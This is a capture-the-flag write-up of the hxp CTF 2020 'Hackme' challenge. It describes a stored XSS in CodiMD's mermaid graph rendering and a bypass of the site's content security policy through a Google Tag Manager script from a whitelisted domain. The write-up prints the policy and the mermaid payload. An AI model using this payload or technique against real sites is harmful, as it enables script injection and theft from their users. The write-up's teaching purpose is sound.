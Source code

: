 Hackme: Web hard - hxpctf 2020
===
This year I played hxp ctf w/ [mHACKeroni](https://mhackeroni.it)
## The challenge
The challenge is a [CodiMD](https://github.com/hackmdio/codimd) docker with report uri.
In the challenge, a note called "the-flag" exists and it contents, obv, the fl4g. This challenge is very very intresting, I loved it but the Dockerfile is really B1GG, with my orrible network it took ~15 minutes for build ahahah.  
(Solves: 15/1177, Fixed by CodiMD Team after issue [#1630](https://github.com/hackmdio/codimd/issues/1630))
## The bug
This challenge, obviously, has an XSS vuln mlmlmlml!\
Oh sh1t there is a CSP. I took a couple of minutes to analyze it
```
Content-Security-Policy: default-src 'self';script-src 'self' vimeo.com https://gist.github.com www.slideshare.net https://query.yahooapis.com 'unsafe-eval' https://disqus.com https://*.disqus.com https://*.disquscdn.com https://www.google-analytics.com 'nonce-90dfe8a7-eaa5-41a5-a9f2-7d36a6db7ce3' 'sha256-81acLZNZISnyGYZrSuoYhpzwDTTxi7vC1YM4uNxqWaM=';img-src * data:;style-src 'self' 'unsafe-inline' https://github.githubassets.com https://*.disquscdn.com;font-src 'self' data: https://public.slidesharecdn.com https://*.disquscdn.com;object-src *;media-src *;child-src *;connect-src *
```  
Eureka: `https://www.google-analytics.com` is enable.\
But first I need a method to include some script from google analytics :(\
With some osint I find a stored xss bug in [mermeid graph]( https://github.com/mermaid-js/mermaid/issues/869). 
## IT'S TIME TO EXPLOIT
With google analytics there is a service called "Google Tag Manager". With it I can create cusotm tag and custom javascript code.

First of all I write an XSS payload and create a variable in Google Tag Manager with this paylod.

![CustomJavascript](images/custom_javascript.png)

Secondly I create a custom Google Universal Analytics Tag ang Google Analytics Settigs that took the custom variable and do something at the page load event

![Gas](images/gas.png)

![Gaua](images/gaua.png)

Finally I write a new note that trigger the xss bug:
```
```mermaid
graph TD
B --> C{<script src=https://www.google-analytics.com/gtm/js?id=GTM-MLQBR25 ></script>}
```

And I report my note.

The flag: 
`
hxp{Yo dawg, I heard you like XSS, so I put some DOM injection in your script injection so you can inject scripts while you inject HTML while you inject scripts! Any questions?}
`.

Thanks a lot to orgs for the idea and for the other challenges.
